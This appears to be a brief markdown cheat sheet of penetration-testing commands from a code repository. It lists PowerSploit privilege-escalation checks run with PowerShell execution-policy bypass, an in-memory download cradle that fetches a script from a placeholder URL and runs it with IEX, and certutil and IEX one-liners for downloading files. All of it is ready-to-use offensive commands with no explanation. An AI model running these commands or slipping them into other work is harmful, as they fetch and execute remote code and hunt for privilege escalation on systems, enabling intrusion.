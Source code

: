 # Helpful pentest commands

## Powersploit

* powershell -exec bypass -c "Import-Module .\Privesc; Invoke-AllChecks"

#### Download In-Memory:

* powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://<PRIVESC URL>’); Invoke-AllChecks”

## Simple Download:

* certutil -urlcache -split -f "http://..."

* IEX (New-Object Net.WebClient).DownloadString(‘http://...’)
